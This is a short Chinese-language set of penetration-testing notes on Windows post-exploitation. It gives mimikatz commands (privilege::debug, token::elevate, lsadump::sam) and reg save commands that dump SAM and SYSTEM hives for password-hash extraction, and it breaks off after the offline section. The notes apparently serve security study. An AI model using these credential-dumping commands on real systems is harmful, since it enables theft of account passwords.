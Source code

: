```yaml
---
title: Windows后渗透
published: 2025-07-10
description: '主要记录Windows的hash获取、impacket工具、提权等'
image: ''
tags: [Windows,后渗透]
category: '笔记'
draft: false 
lang: ''
---
```


# 通过系统SAM表获取密码

SAM文件夹一般位于`C:\Windows\System32\config\SAM\`

主要使用工具：[mimikatz](https://github.com/gentilkiwi/mimikatz)

该工具有两个模式online、offline

## 原理
先读取hklm\system获取syskey再使用syskey解密hklm\sam

## online
online模式其实就是将mimikatz上传到目标系统上`system`身份运行`lsadump::sam`获取目标系统上sam中的密码hash

该模式需要用户**具备SYSTEM权限**或**使用模拟的SYSTEM令牌**

以SYSTEM权限启动exe文件后运行以下命令

```bash
privilege::debug			#获得debug权限
token::elevate				#模拟一个system令牌
lsadump::sam					#dumpSAM数据库
```

![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751080155011-361cc7b1-04b2-4c17-b682-e974a3967cd4.png)

拿到hash后就是破解

![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751080269330-c20b4b9e-e237-4412-90d3-e4097f3cdecc.png)

## offline
导出目标系统上的SAM数据库文件

同样需要管理员或`SYSTEM`权限

```bash
reg save hklm\sam {保存路径}sam.hiv
reg save hklm\system {保存路径}system.hiv
```
